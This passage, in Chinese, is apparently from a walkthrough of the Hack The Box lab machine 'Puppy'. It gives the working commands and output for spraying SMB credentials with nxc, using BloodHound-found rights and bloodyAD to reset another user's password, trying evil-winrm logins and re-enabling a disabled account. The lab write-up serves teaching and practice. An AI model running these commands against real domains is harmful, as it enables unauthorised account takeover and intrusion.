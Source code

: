 然后我们用这些用户和密码爆破，看看能不能找出可用的用户名/密码组合，直接尝试smb服务即可:

```
 nxc smb 10.10.11.70 -u username -p password --continue-on-success --smb-timeout 10 -t 1 --timeout 10 --verbose
```

这里的爆破模式类似于burpsuite的集束炸弹模式，它会尝试所有可能的用户名和密码的组合：

```
[15:47:10] INFO     Creating SMBv3 connection to 10.10.11.70                               smb.py:606
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025! 
```

找到一个可用的组合：`ant.edwards:Antman2025!`

其实我们也可以根据用户的全名去对应枚举出的账户名尝试。可以使用`--no-bruteforce`参数让nxc按顺序读取文件，用第一行的用户名对应第一行的密码，第二行对第二行，以此类推。但是注意这样用户名密码文件行数要一样，而且要手动整理可能的组合。

首先想到是能不能winrm远程登录，但是这里不能。还是回到bloodhound看看这个用户能不能提权一下：

![image-20251009160317837](C:\Users\zdx33\AppData\Roaming\Typora\typora-user-images\image-20251009160317837.png)

这表示ant.ewords用户可以完全控制adam.silver，比如我们可以修改adam.silver的密码

```
└─# bloodyAD --host 10.10.11.70 -d puppy.htb -u ant.edwards -p Antman2025! set password "adam.silver" 'Orange33315!'
[+] Password changed successfully!
```

这里有一点需要注意，后面的密码`Orange33315!`用的是单引号包裹，而非双引号。为什么？linux中的单引号会忽略所有特殊字符，只当字符串处理。如果用双引号，那么密码中的`！`就不能正常输入。

那不要感叹号行不行？不可以。因为windows域控制中有密码策略，对密码的安全性有要求。一般是最少6位，同时包含大小写字母，数字以及特殊符号。我们可以发现之前keepass数据库中的密码都符合这个要求

可以在bloodhound中看到adam.silver属于REMOTE MANAGEMENT组，那它大概率就能远程登录了：

```
evil-winrm -i 10.10.11.70 -u adam.silver -p Orange33315!
```

但是发现无法登录，我们登录smb服务检查一下密码修改成功没有：

```
nxc smb 10.10.11.70 -u adam.silver -p 'Orange33315!' --smb-timeout 10 -t 1 --timeout 10 --verbose
```

提示如下：

```
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\adam.silver:Orange33315! STATUS_ACCOUNT_DISABLED (The referenced account is currently disabled and may not be logged on to.)
```

可以看到这个账户被禁用了。这应该是出发了**账户锁定策略**。我们可以通过bloodyAD重新启用该账户

```
bloodyAD --host 10.10.11.70 -d puppy.htb -u ant.edwards -p Antman2025! remove uac "adam.silver" -f ACCOUNTDISABLE
```
